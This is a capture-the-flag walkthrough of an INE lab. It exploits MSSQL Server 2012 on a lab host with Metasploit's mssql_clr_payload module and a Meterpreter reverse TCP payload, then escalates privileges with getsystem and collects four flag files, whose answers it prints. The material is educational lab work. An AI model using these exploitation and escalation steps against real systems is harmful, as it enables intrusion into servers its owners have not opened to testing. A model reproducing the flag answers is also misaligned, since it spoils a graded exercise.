 ### Completing Skill Check Labs

Skill Check Labs are interactive, hands-on exercises designed to validate the knowledge and skills you’ve gained in this course through real-world scenarios. Each lab presents practical tasks that require you to apply what you’ve learned. Unlike other INE labs, solutions are not provided, challenging you to demonstrate your understanding and problem-solving abilities. Your performance is graded, allowing you to track progress and measure skill growth over time.

# Lab Environment

In this lab environment, you will have GUI access to a Kali machine. The target machine will be accessible at **target.ine.local**.

**Objective:** Use Metasploit and manual investigation techniques to capture the following flags:

- **Flag 1:** Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
- **Flag 2:** Locate the second flag within the Windows configuration folder.
- **Flag 3:** The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.
- **Flag 4:** Investigate the Administrator directory to find the fourth flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- mssql

&nbsp;

![89e186484d4b897ea7f255df00c32570.png](resources/89e186484d4b897ea7f255df00c32570.png)

**Flag 1: Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.**

As always, let's find the target IP

![9fb901c33dc9348e2fdd03eeda9de3ea.png](resources/9fb901c33dc9348e2fdd03eeda9de3ea.png)

nmap -sC -sV target.ine.local

This command performs a service and version scan (`-sC -sV`)

![9dfd837c9bae4ef8d84ded4ee3429a19.png](resources/9dfd837c9bae4ef8d84ded4ee3429a19.png)

Now that we know **MSSQL Server** is running on **port 1433**, and the version is **SQL Server 2012 (11.00.6020.00; SP3)**, let's search for an exploit based on this version.

Start Metasploit by typing: `msfconsole`. Once inside Metasploit, search for available exploits related to **MSSQL 2012** using `search MSSQL 2012`.

![c543da2d63709feaaa13d0d8dc85a84d.png](resources/c543da2d63709feaaa13d0d8dc85a84d.png)

![17321b95d1747ef2a5484daaa92030ae.png](resources/17321b95d1747ef2a5484daaa92030ae.png)

At the top, we can see the relevant exploit. To select it, use the following command: use 0 or

use exploit/windows/mssql/mssql_clr_payload

![d30d0c151c2c9a6070d0dedbb943f1a4.png](resources/d30d0c151c2c9a6070d0dedbb943f1a4.png)

We can also get detailed information about this module by using the `info` command. The description confirms that this exploit has been tested on **SQL Server 2012**, so it is suitable for our target.

show options

![558c4189e0a88d5ded2e792a3673e07a.png](resources/558c4189e0a88d5ded2e792a3673e07a.png)

Now, we can proceed with configuring the required options before executing the exploit..We need to specify RHOST because it is required.

set RHOSTS target.ine.local

![7507f30c28a5109f13db2306c429c5c4.png](resources/7507f30c28a5109f13db2306c429c5c4.png)

Run the exploit by typing: run or exploit

Press enter or click to view the image in full size

![ed836a1b60597663f8f0eebeefc33ecf.png](resources/ed836a1b60597663f8f0eebeefc33ecf.png)

Since the exploit supports **x86** architecture, but we are targeting a **64-bit** system, we need to set a compatible payload.

set PAYLOAD windows/x64/meterpreter/reverse_tcp

![f96f75725389b04f1eb4bec02abc6d01.png](resources/f96f75725389b04f1eb4bec02abc6d01.png)

Now that we have a successful **Meterpreter** session and you can check some information

![5027c7f6511bac19218505077a8d035c.png](resources/5027c7f6511bac19218505077a8d035c.png)

Type the following command shell to create a session

This will drop us into a regular command shell on the target machine.

![b4444b763bf4061da90bd1dd6ddba7c9.png](resources/b4444b763bf4061da90bd1dd6ddba7c9.png)

To find the first flag, navigate to the **C** drive by typing: `cd C:\`.

List the contents of the directory to find the file that contains the flag: `dir`

![2fc0d00687971dfb87937a4ca58f0429.png](resources/2fc0d00687971dfb87937a4ca58f0429.png)

Now that we’ve located the flag, we can use the type command to read its content.

![c62f375c1a18fa3688e778003fefd8dd.png](resources/c62f375c1a18fa3688e778003fefd8dd.png)

Answer: 1be3a92994994744be332aab8417450f

**Flag 2: Locate the second flag within the Windows configuration folder.**

For the second flag, we want to check the **Windows configuration folder**, which is usually found in the `System32` directory. To navigate to it, type the following command: `cd Windows\System32`

![1a8a24760e6fe1786bf083a8d29f32cc.png](resources/1a8a24760e6fe1786bf083a8d29f32cc.png)

Or you can navigate manually

![fb8f815df69897a22a092461239946ee.png](resources/fb8f815df69897a22a092461239946ee.png)

![02f1d9ec755ceea6fc860b5c9332f778.png](resources/02f1d9ec755ceea6fc860b5c9332f778.png)

To list only the directories in the `System32` folder, use the following command: `dir /a:d`. This will filter the results and show only the directories.

![9c57627c3ca220abd29f2cc54ba11534.png](resources/9c57627c3ca220abd29f2cc54ba11534.png)

Now that we can see the **config** folder, navigate into it using the `cd` command.cd

![fc9927823f3466226b0d515522164629.png](resources/fc9927823f3466226b0d515522164629.png)

We don’t have access to view the contents. To check this, we need to first review our privileges. Let’s get back to our Meterpreter session by using **Ctrl + C**. Then, type `getprivs` to view the privileges that the current user has.

![5b33695b7121371d914193a730a2da38.png](resources/5b33695b7121371d914193a730a2da38.png)

These privs are for the user. We can use `getsystem` to elevate the privileges because if `SeImpersonatePrivilege` is present, `getsystem` is likely to succeed using Named Pipe Impersonation.

![9222596dbbd0c2c61045a008bd58d9f2.png](resources/9222596dbbd0c2c61045a008bd58d9f2.png)

We have elevated our privileges. Now, we can use the `shell` command again to get the shell and continue searching for the second flag.

![ba12525d073cc0b930783b5eb795bd58.png](resources/ba12525d073cc0b930783b5eb795bd58.png)

Let's first check the Configuration directory

![3d7ad324ef23d4297dfa9607c96e1548.png](resources/3d7ad324ef23d4297dfa9607c96e1548.png)

nothing is found, and we can check the config directory

We have successfully entered the **config** directory. Type `dir` to list the contents.cd

![50a797c7d4ffc6b19132741fe192265e.png](resources/50a797c7d4ffc6b19132741fe192265e.png)

We have found the second flag. To read its contents, use the command `type flag2.txt`.

![333f3dcf3e3952b30700f6c5cc55c0fd.png](resources/333f3dcf3e3952b30700f6c5cc55c0fd.png)

Answer: 6d155803a67e46ce8b9dcffef496d122

**Flag 3: The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.**

The question states that the third flag is also hidden within the **system** directory, but we don’t know its exact location. However, we know that the flag files end with `.txt`. To search for those files, use the following command: dir C:\\Windows\\System32\\\*.txt /s /b

This command will search for all `.txt` files within the **System32** directory and its subdirectories.

![c18d874992137a9fe1dede1d30b16289.png](resources/c18d874992137a9fe1dede1d30b16289.png)

We see a file named **EscalatePrivilageToGetThisFlag.txt**. To read its contents, type the following command:

type C:\\Windows\\System32\\drivers\\etc\\EscaltePrivilageToGetThisFlag.txt

![9588b8ce733e01fb8ddc56b1539f909b.png](resources/9588b8ce733e01fb8ddc56b1539f909b.png)

Answer: 15e39928a9b34c49b36cbc1872e15ec6

**Flag 4: Investigate the Administrator directory to find the fourth flag.**

Since we have already elevated our privileges, let’s navigate to the **Administrator** directory to find the fourth flag.

You can navigate to the **Administrator** directory with cd C:\\Users\\Administrator

![4f3e9a99676eb8db328dcc8efee0828e.png](resources/4f3e9a99676eb8db328dcc8efee0828e.png)

or Manually

![6510dcdb0b708bd5dc714ab40a25f932.png](resources/6510dcdb0b708bd5dc714ab40a25f932.png)

![e2c5a61eda24e12fe4d689f92effc742.png](resources/e2c5a61eda24e12fe4d689f92effc742.png)

To list the contents, type `dir`. Let's navigate to the **Desktop** directory.

![1d393885cb1706fd0c08dfe426b80347.png](resources/1d393885cb1706fd0c08dfe426b80347.png)

![d8a5da61dc34a8e4bc7bef3aea0ba52a.png](resources/d8a5da61dc34a8e4bc7bef3aea0ba52a.png)

And here we have found our last flag, which is:

![607f1608c988f069371b4d48297b31a6.png](resources/607f1608c988f069371b4d48297b31a6.png)

Answer: c8bd568633a24d87967c361d062fd047

![f276690e56807b353e602532bca564c7.png](resources/f276690e56807b353e602532bca564c7.png)
